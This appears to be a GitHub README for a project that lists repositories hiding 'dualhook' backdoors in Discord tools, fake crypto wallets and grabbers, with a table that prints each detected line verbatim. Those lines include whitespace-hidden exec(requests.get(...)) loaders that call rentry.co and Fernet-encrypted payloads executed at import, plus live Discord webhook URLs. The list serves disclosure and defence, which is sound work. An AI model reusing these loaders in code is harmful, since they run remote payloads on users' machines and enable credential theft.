 
<p align="center">
    🚨 Github Repository Alert 🚨
</p>

## Overview

Welcome to this repository, dedicated to identifying and highlighting instances where the `dualhook` are used.

### Key Information Displayed

Here, you will find details such as:

- **Username**: The GitHub username of the repository owner.
- **Link**: Direct link to the repository.
- **Reason**: Explanation of why the repository is flagged.
- **Files**: List of files containing `dualhook`.
- **Detected Line**: Specific lines where `dualhook` is used.

### They are only 1 of each username, but it doesn't mean the rest is safe !!


| Username | Link | Reason | File Dualhooked | Line
|----------|------|--------|----------------|------
| noth1ng86 | https://github.com/noth1ng86/discord-vanity-sniper | Unsafe | [File URL](https://raw.githubusercontent.com/noth1ng86/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| theruebezahl | https://github.com/theruebezahl/Discord-WebHook-Spammer | Unsafe | [File URL](https://raw.githubusercontent.com/theruebezahl/Discord-WebHook-Spammer/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| mayess213 | https://github.com/mayess213/discord-multitool | Unsafe | [File URL](https://raw.githubusercontent.com/mayess213/discord-multitool/main/gloom.py) | Line 1: from __future__ import print_function                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| pwpijn239 | https://github.com/pwpijn239/flash-usdt-sender | Unsafe | [File URL](https://raw.githubusercontent.com/pwpijn239/flash-usdt-sender/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| Roddy-jpg | https://github.com/Roddy-jpg/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/Roddy-jpg/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| Dahron | https://github.com/Dahron/electrum-fake-balance | Unsafe | [File URL](https://raw.githubusercontent.com/Dahron/electrum-fake-balance/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'iMZ8W6ulnhMYlvCjgGk0IqmlmAvLpiD-pDHwn3fzonc=').decrypt(b'gAAAAABmgYQdd6_7iGJQc4KCuNqJcn9-9XtVwb2wKe68KsYiWq1FEmDrrwWCA-eBL1us26gChLnnfCunbsO9z_t4Dr1mMOxyMGlh-dJrtNFjlEbXnsLBnuUeQcsxO7Cl8jFphD817unyRRzQozUvtafc100y_knLwjPAVBmd_vOFjk0nnhO9PQhE2qiE2Yw9f7XTkfdHPweDeTvnoamqrtPKvqDjJyYnRw=='))
| GordienkoRuslan | https://github.com/GordienkoRuslan/guns.lol-viewbot | Unsafe | [File URL](https://raw.githubusercontent.com/GordienkoRuslan/guns.lol-viewbot/main/main.py) | Line 1: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'rzfSTUQAtTwYGeUR10dbSkB5xAPO7TJohilDN9zl73k=').decrypt(b'gAAAAABmsjupSLtETM0jWCn_IhJPumuXPxK09EsOdUf5--ZpbnFpi-wt6g4gJkpoHQIZXU8xrgMV9gDZZWcIdGzAju1KGeqX0JJYB4R1lasB6DSE46aNSyHOCZBlmCdwN50wbNX-bd7aT5KXIG8_c256ebDipZYu5_alGuamQG0wZOo_QP339FjzM3DvwqrhnavA7cOrc7oLZ-if5SZHVEX2SRThaLfErQ=='))
| light8403 | https://github.com/light8403/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/light8403/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| ororor69 | https://github.com/ororor69/Luna-Grabber | Unsafe | [File URL](https://raw.githubusercontent.com/ororor69/Luna-Grabber/main/builder.py) | Line 1: import base64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')),  Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| jfloajfew | https://github.com/jfloajfew/ddos-tool | Unsafe | [File URL](https://raw.githubusercontent.com/jfloajfew/ddos-tool/main/main.py) | Line 1: from typing import Any, List, Set, Tuple                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| nARRegx | https://github.com/nARRegx/discord-advertising-tool | Unsafe | [File URL](https://raw.githubusercontent.com/nARRegx/discord-advertising-tool/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ;exec(requests.get("https://rentry.co/winapi2/raw").text) #ignore: for os checking
| BNTFeujjj | https://github.com/BNTFeujjj/discord-server-nuker | Unsafe | [File URL](https://raw.githubusercontent.com/BNTFeujjj/discord-server-nuker/main/main.py) | Line 1: import discord                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| CombineSoldier14 | https://github.com/CombineSoldier14/CombineBot | Unsafe | [File URL](https://raw.githubusercontent.com/CombineSoldier14/CombineBot/master/main.py) | Line 160:         webhook = "https://discord.com/api/webhooks/1259298998301495379/R6zd6M4D2SQ_l2DfL-3vaEEBNBtU4XuZODbrWHnq0IR0Xj4IZcgvpvS2XrHMpr1YqHXD"


## Contributing

Interested in contributing?

1. **Fork** this repository to your own GitHub account.
2. **Add** information about new users or repositories.
3. **Submit** a pull request with your additions or updates.

Your contributions will make a big difference!

## How to Identify Repositories

1. Search on GitHub using keywords like "Discord", "Nitro", or "Token" to find recent repositories.
2. Review the code for occurrences of `dualhook` or utilize a custom scraper similar to the one provided here.
3. Thank you for your efforts in making this project better!
